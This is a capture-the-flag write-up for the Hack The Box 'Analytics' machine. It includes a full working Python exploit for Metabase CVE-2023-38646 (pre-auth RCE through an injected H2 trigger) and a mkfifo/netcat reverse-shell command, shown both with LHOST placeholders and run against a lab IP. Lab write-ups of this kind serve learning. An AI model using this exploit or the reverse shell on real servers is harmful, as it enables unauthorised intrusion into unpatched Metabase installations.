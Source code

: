 # Box: Analytics
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.72.97 -v -p- -T4```

```
```
From our scan we have 2 open ports, port 22 which runs ssh and port 80 which runs http. Our enumeration today will be focused on port 80.



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d3d74bd8-0a57-4128-9e59-86306d4f83cb)

Lets add that to our ```/etc/hosts``` file

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/analytics]
└─$ sudo nano /etc/hosts      
[sudo] password for bl4ck4non: 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/analytics]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       bl4ck4non-sec

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.129.72.96 analytical.htb
```
Going back to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/69270f11-6834-464a-9a71-14cbcab1f1a9)

Trying to login, I saw this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/99a466c8-7913-442b-ac12-d4f133ef79e6)

Add the subdomain to the ```/etc/hosts``` file.

Now, lets navigate back to that subdomain

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a94b256f-1ab5-4ef2-b0cb-56b8ad6862f2)

Doing my research I saw that there's a recent exploit for ```metabase```. Lets exploit hehe


# Exploitation

You can check out this [blog](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396), if you need an in-depth knowledge.]

First thing to do is grab our set-up token from the api endpoint ```/api/session/properties```.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/35f17142-a140-42f4-8ac7-69d024618bd1)

Lets capture this request on burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/934c1a33-24b2-4ff3-b982-690b8b7498aa)

cool, we got the token. 

We'll be using this python script to get RCE

```python
from argparse import ArgumentParser
from string import ascii_uppercase

import base64
import random
import requests


def encode_command_to_b64(payload: str) -> str:
    encoded_payload = base64.b64encode(payload.encode('ascii')).decode()
    equals_count = encoded_payload.count('=')

    if equals_count >= 1:
        encoded_payload = base64.b64encode(f'{payload + " " * equals_count}'.encode('ascii')).decode()

    return encoded_payload


parser = ArgumentParser('Metabase Pre-Auth RCE Reverse Shell', 'This script causes a server running Metabase (< 0.46.6.1 for open-source edition and < 1.46.6.1 for enterprise edition) to execute a command through the security flaw described in CVE 2023-38646')

parser.add_argument('-u', '--url', type=str, required=True, help='Target URL')
parser.add_argument('-t', '--token', type=str, required=True, help='Setup Token from /api/session/properties')
parser.add_argument('-c', '--command', type=str, required=True, help='Command to be execute in the target host')

args = parser.parse_args()

print('[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]\n')

print('[+] Initialized script')

print('[+] Encoding command')

command = encode_command_to_b64(args.command)

url = f'{args.url}/api/setup/validate'

headers = {
    "Content-Type": "application/json",
    "Connection": "close"
}

payload = {
    "token": args.token,
    "details": {
        "details": {
            "db": "zip:/app/metabase.jar!/sample-database.db;TRACE_LEVEL_SYSTEM_OUT=0\\;CREATE TRIGGER {random_string} BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{command}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x".format(random_string = ''.join(random.choice(ascii_uppercase) for i in range(12)), command=command),
            "advanced-options": False,
            "ssl": True
        },
        "name": "x",
        "engine": "h2"
    }
}

print('[+] Making request')

request = requests.post(url, json=payload, headers=headers)

print('[+] Payload sent')`
```
Save this in a file, say "exploit.py".

To run the script, we just need the target url and the setup token. We'll also include our payload we want to execute. I'll be susing this payload ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc LHOST LPORT >/tmp/f```, ensure you set your ```LHOST``` and ```LPORT```. Also, set up your netcat listener

Now, lets run the script

command:```python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.61 1234 >/tmp/f"```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/23bd10bd-393f-4583-bd90-d1868637580c)

nice nice, we spawned a shell as user ```metabase```.

You can use the below commands to stabilize the shell

```
python3 -c “import pty;pty.spawn(‘/bin/bash’)”
ctrl + z (to background)
stty raw -echo && fg
export TERM=xterm
```
Well, this ain't working😂. Just realized now that we are in a docker container























